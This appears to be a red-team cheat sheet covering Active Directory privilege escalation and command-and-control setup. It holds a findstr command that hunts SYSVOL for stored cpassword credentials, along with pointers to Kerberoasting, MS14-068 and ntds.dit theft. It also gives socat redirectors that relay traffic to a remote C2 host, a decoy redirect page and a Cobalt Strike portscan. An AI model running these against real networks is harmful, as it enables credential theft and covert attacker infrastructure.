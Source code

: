 ## Domain Admin Privesc Methods
https://adsecurity.org/?p=2362

 1. Passwords in SYSVOL & Group Policy Preferences
 	
 ```
 	findstr /S cpassword %logonserver%\sysvol\*.xml
 ```
 	or use Get-GPPPasswords.ps1 from PowerSploit

 2. Exploit the MS14-068 Kerberos Vulnerability on a Domain Controller Missing the Patch
 3. Kerberos TGS Service Ticket Offline Cracking (Kerberoast)
 4. The Credential Theft Shuffle
 5. Gain access to AD Database file (ntds.dit)
 	* Backup locations (backup server storage, media, and/or network shares)
 	* Find the NTDS.dit file staged on member servers prior to promoting to Domain Controllers.
 	* With admin rights to virtualization host, a virtual DC can be cloned and the associated data copied offline.


# Command and Control

Simple TCP Port Redirection
```	
	socat TCP-LISTEN:80,fork TCP:<remote host>:80
	socat TCP-LISTEN:443,fork TCP:<remote host>:443
```

UDP Port Redirection 
```
	socat udp4-recvfrom:53,reuseaddr,fork udp4-sendto:<IPADDRESS>; echo -ne
```

Simple HTTP Redirect

Save as a file like the following as redirect.html and map to root "/" on your Team Server. Casual browsing to the root of your domain will then simply redirect.
```
	<html>
	<title>Google</title>
	<meta http-equiv="refresh" content="0;url=https://www.googlrrrr.com" />
	</html>
```

## Domain Fronting

* https://github.com/rvrsh3ll/FindFrontableDomains


## Cobalt Strike

http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
https://github.com/killswitch-GUI/CobaltStrike-ToolKit/blob/master/DA-Watch.cna
https://github.com/Und3rf10w/Aggressor-scripts
```
	portscan 10.42.175.0/26 21,22,23,25,80,443,445,1433,3389,8080,8443
```
